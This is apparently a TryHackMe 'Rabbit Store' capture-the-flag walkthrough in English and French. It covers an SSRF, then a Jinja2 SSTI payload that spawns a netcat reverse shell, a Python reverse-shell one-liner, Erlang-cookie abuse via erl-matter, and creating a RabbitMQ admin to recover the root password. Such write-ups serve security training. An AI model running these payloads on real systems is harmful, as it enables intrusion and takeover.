

[https://tryhackme.com/room/rabbitstore](https://tryhackme.com/room/rabbitstore)


```sh
sudo nmap -sC -sV <IP>
```


HTTP : 

```sh
curl <IP>
```


```sh
echo "<IP> cloudsite.thm" | sudo tee -a /etc/hosts && curl http://cloudsite.thm
```


OU

```sh
curl --resolve cloudsite.thm:80:<IP> http://cloudsite.thm
```


```sh
gobuster dir -u http://cloudsite.thm -w /usr/share/wordlists/dirb/big.txt -x php,html
```


```sh
gobuster dir -u http://storage.cloudsite.thm -w /usr/share/wordlists/dirb/big.txt -x php,html
```


```json
"subscription": "active",
```


```http
http://<IP>/test.txt
```

```sh
gobuster dir -u http://storage.cloudsite.thm/api -w /usr/share/wordlists/dirb/common.txt
```


TEST of SSRF vulnerability :


Test with the domaine name


Test directly with ip and the port 3000 (default of Express, visible on the X-Powered-By on the response) 


We discovered a new api url : 

```
/api/fetch_messeges_from_chatbot
```

RCE via SSTI :

```
Content-Type: application/json;charset=UTF-8

{
    "":""
}
```


```
Content-Type: application/json;charset=UTF-8

{
    "username":"admin"
}
```


A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort.

polygot SSTI

```
{"username":"${{<%[%'\"}}%\\."}
```


> You might wonder why a **Node.js** application using the **Express** framework returns an error from the **Jinja2** templating engine, which is typically used with **Python**. This is because the **Express** application forwards requests made to the `/api/fetch_messeges_from_chatbot` endpoint to an internal **Flask** application and returns its response.


```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 4444 >/tmp/f').read() }}"}
```




```sh
find . -name user.txt
```

```sh
find ~ -name root.txt
```


```
98d3a30fa86523c580144d317be0c47e
```

Root :

```sh
cat /etc/passwd
```


SUID :

```sh
find / -type f -perm -4000 2>/dev/null
```


Linpeas : 


Erlang :

```sh
cat /var/lib/rabbitmq/.erlang.cookie
```


```sh
git clone https://github.com/gteissier/erl-matter.git
```


```sh
chmod +x erl-matter/shell-erldp.py
```


```sh
./erl-matter/shell-erldp.py <IP> 25672 <COOKIE>
```


Reverse Shell :

```sh
nc -lvnp 4444
```


```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```


```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```sh
chmod 600 .erlang.cookie
rabbitmqctl add_user imposter 123
rabbitmqctl set_user_tags imposter administrator
```


[https://stackoverflow.com/questions/12792856/what-ports-does-rabbitmq-use](https://stackoverflow.com/questions/12792856/what-ports-does-rabbitmq-use)

> PORT 4369 : Erlang utilise un démon de mappage de ports (epmd) pour la résolution des noms de nœuds dans un cluster. Les nœuds doivent pouvoir se joindre les uns aux autres et au démon de mappage de ports pour que le clustering fonctionne. 
> 
> PORT 35197 : défini par inet_dist_listen_min/max Les pare-feu doivent autoriser le trafic dans cette plage à passer entre les nœuds en cluster
> 
> Console de gestion RabbitMQ :
> 
> PORT 15672 pour RabbitMQ version 3.x
> PORT 55672 pour RabbitMQ pré 3.x
> Assurez-vous que le plug-in rabbitmq_management est activé, sinon vous ne pourrez pas accéder à la console de gestion sur ces ports.
> 
> PORT 5672 Port principal de RabbitMQ (AMQP)
> PORT 5671 AMQP chiffré TLS (si activé)
> Pour un cluster de nœuds, ils doivent être ouverts les uns aux autres sur 35197, 4369 et 5672.
> 
> Pour tous les serveurs qui souhaitent utiliser la file d'attente de messages, seul 5672 (ou éventuellement 5671) est requis.

```sh
curl -u "imposter:123" localhost:port http://localhost:15672/api/users
```


[https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm](https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm)

En gros, ça ressemble à ça : **base64(salt[4 bytes] + sha256(salt[4 bytes] + password))**

```python
#!/usr/bin/env python3
import hashlib  
import binascii  
  
# Get the hash  
user_hash = "<base64_encoded_hash>"  
# Convert the base64 encoded hash to binary  
password_hash = binascii.a2b_base64(user_hash)  
# Convert the binary hash to a hexadecimal string  
decoded_hash = password_hash.hex()  
# Split the decoded hash into two parts  
part1 = decoded_hash[:8]  
part2 = decoded_hash[8:]  
  
# Print only the part2  
print(part2)
```


```sh
chmod +x script.py
./script.py
```

> C'est le mot de passe `root`, et non un hash !

```sh
su root
```


```sh
find / -type f -name "root.txt" 2>/dev/null
```

```
cat /root/root.txt
```

